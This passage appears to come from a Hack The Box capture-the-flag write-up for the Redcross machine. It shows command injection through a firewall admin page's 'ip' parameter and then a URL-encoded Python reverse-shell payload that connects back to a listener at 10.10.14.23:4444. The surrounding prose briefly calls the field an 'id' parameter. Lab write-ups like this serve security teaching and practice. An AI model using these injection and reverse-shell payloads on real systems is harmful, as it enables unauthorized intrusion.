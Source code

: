 This is some kind of chroot jail, there's not much we can do here. However we do find a single C source file: `iptctl.c`

```
$ pwd
/home/public/src
$ cat iptctl.c 
/*
 * Small utility to manage iptables, easily executable from admin.redcross.htb
 * v0.1 - allow and restrict mode
 * v0.3 - added check method and interactive mode (still testing!)
 */
...
```

The file contains the program code that is called by the firewall management application on the admin page:

![](/assets/images/htb-writeup-redcross/firewall_control.png)

Whenever we add/delete an IP from the firewall ACL's, the PHP code does a system() call to run the `iptctl` application and make changes to the firewall rules. If we add a semi-colon in the `id` parameter we are able to inject commands and gain code execution.

Example payload like the following: `ip=1;id&action=deny`

```
Usage: /opt/iptctl/iptctl allow|restrict|show IP
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Since we now have RCE, we can use a standard python reverse shell command to get shell on the system.

Payload: `ip=1;python+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.23",4444))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3b+os.dup2(s.fileno(),2)%3bp%3dsubprocess.call(["/bin/sh","-i"])%3b'&action=deny`

And we get a shell!

```console
root@ragingunicorn:~/hackthebox/Machines/Redcross# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.113] 51712
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ hostname
redcross
```
